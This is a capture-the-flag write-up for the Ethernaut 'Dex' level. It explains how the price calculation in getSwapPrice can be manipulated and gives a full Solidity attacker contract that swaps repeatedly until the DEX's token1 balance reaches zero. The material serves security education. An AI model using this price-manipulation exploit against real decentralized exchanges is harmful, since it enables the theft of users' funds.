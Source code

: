 # Dex 1 Ethernaut

## Goals

=> Hack the basic DEX contract below and steal the funds by price manipulation.

=> You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

=> Manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

### Hints

- How is the price of the token calculated?
- How does the swap method work?
- How do you approve a transaction of an ERC20?
- Theres more than one way to interact with a contract!
- Remix might help
- What does "At Address" do?

- Basically the weakness is in the getSwapPrice function which calculates the "swap rate" by the amount of certain token inside the dex contract, since you can just swap 10 for 10 after that swap back 20 which will result in you getting 24 back since it now has calculates something like this `20 *(110/90)` if you repeate this process a few times the dex contract will at some point only have a balance of 45 tokens on one of the two tokens, then just trade 45 of this token for whatever you get back and you reached the goal to drain the contracts balance from 1 of the 2 token to zero.

### Attacker Contract

```solidity
contract Hack {
    IDex private immutable dex;
    IERC20 private immutable token1;
    IERC20 private immutable token2;

    constructor(IDex _dex) {
        dex = _dex;
        token1 = IERC20(_dex.token1());
        token2 = IERC20(_dex.token2());
    }

    function hack() external {
        // transfer to hack contract
        token1.transferFrom(msg.sender, address(this), 10);
        token2.transferFrom(msg.sender, address(this), 10);

        // approve dex contract to handle tokens
        token1.approve(address(dex), (2 ** 256 - 1));
        token2.approve(address(dex), (2 ** 256 - 1));

        // swap 5 times the max amount (balanceOf) + the last one with 45 tokens to drain token1 balance of the dex contract to 0
        _swap(token1, token2);
        _swap(token2, token1);
        _swap(token1, token2);
        _swap(token2, token1);
        _swap(token1, token2);

        dex.swap(address(token2), address(token1), 45);

        require(token1.balanceOf(address(dex)) == 0, "dex token1 balance != 0");
    }

    function _swap(IERC20 tokenIn, IERC20 tokenOut) private {
        dex.swap(
            address(tokenIn),
            address(tokenOut),
            tokenIn.balanceOf(address(this))
        );
    }
}
```
